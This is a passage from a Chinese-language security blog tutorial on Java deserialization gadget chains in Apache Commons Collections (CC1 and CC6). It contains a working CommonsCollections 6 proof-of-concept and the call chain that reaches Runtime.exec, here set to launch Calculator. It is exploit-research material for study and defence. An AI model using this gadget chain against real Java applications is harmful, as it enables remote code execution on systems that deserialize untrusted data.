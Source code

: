 |     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```java<br>Transformer[] transformers = new Transformer[]{<br>                new ConstantTransformer(Runtime.class),<br>                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),<br>                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),<br>                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"}),<br>};<br>``` |

但是，执行过后，发现仍然没有弹出计算器。

动态调试发现与 AnnotationInvocationHandler 类的逻辑有关，在 `AnnotationInvocationHandler:readObject` 的逻辑中，有一个 if 语句对 var7 进行判断，只有在其不是 null 的时候才会进入里面执行 setValue，否则不会进入也就不会触发漏洞。

那么如何让这个 var7 不为 null 呢？需要如下两个条件：

1.  `sun.reflect.annotation.AnnotationInvocationHandler` 构造函数的第一个参数必须是 Annotation 的子类，且其中必须含有至少一个方法，假设方法名是 X
2.  被 TransformedMap.decorate 修饰的 Map 中必须有一个键名为 X 的元素

所以，前面的 payload 中用到了 `Retention.class` ，因为 Retention 有一个方法，名为 value。为了再满足第二个条件，需要给 Map 中放入一个 Key 是 value 的元素：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```java<br>innerMap.put("value","Geekby");<br>``` |

但是这个 Payload 有一定局限性，在 Java 8u71 以后的版本中，由于 `sun.reflect.annotation.AnnotationInvocationHandler` 发生了变化导致不再可用。

## [](#3-commonscollections-6-gadget-%E5%88%86%E6%9E%90)3 CommonsCollections 6 Gadget 分析

### [](#31-%E8%B0%83%E7%94%A8%E9%93%BE)3.1 调用链

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>``` | ```fallback<br>java.io.ObjectInputStream.readObject()<br>    java.util.HashSet.readObject()<br>        java.util.HashMap.put()<br>        java.util.HashMap.hash()<br>            org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()<br>            org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()<br>                org.apache.commons.collections.map.LazyMap.get()<br>                    org.apache.commons.collections.functors.ChainedTransformer.transform()<br>                    org.apache.commons.collections.functors.InvokerTransformer.transform()<br>                    java.lang.reflect.Method.invoke()<br>                        java.lang.Runtime.exec()<br>``` |

### [](#32-poc)3.2 POC

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>``` | ```java<br>public class Main {<br>    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException {<br>        Transformer[] transformers = new Transformer[] {<br>                new ConstantTransformer(Runtime.class),<br>                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),<br>                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),<br>                new InvokerTransformer("exec",new Class[] { String.class }, new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})<br>        };<br>        Transformer transformerChain = new ChainedTransformer(transformers);<br>        Map innerMap = new HashMap();<br>        Map lazyMap = LazyMap.decorate(innerMap, new ConstantTransformer(1));<br>        TiedMapEntry te = new TiedMapEntry(lazyMap, "poc");<br><br>        HashSet ht = new HashSet();<br>        ht.add(te);<br><br>        innerMap.remove("poc");<br><br>        Class c = LazyMap.class;<br>        Field f = c.getDeclaredField("factory");<br>        f.setAccessible(true);<br>        f.set(lazyMap, transformerChain);<br><br><br>        // 序列化<br>        ByteArrayOutputStream barr = new ByteArrayOutputStream();<br>        ObjectOutputStream oos = new ObjectOutputStream(barr);<br>        oos.writeObject(ht);<br>        oos.close();<br><br>        // 反序列化<br>        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));<br>        ois.readObject();<br><br>    }<br>}<br>``` |

### [](#33-%E5%88%86%E6%9E%90)3.3 分析

CommonsCollections 6 的 sink 链使用的依旧是 `InvokerTransformer` 反射接口，利用 `ChainedTransformer` 串联三次 `InvokerTransformer` 反射和 `ConstantTransformer` 接口，获取 Runtime 类。

在 `CommonsCollections 1` 中，通过交叉引用搜索到另外一个类 `LazyMap` 中的 `get` 方法调用了 `transform` 方法。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108291059769.png-water_print](assets/1699411715-0c6f8cf6b9cc4a43dfeeeaecb33cde01.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108291059769.png-water_print")
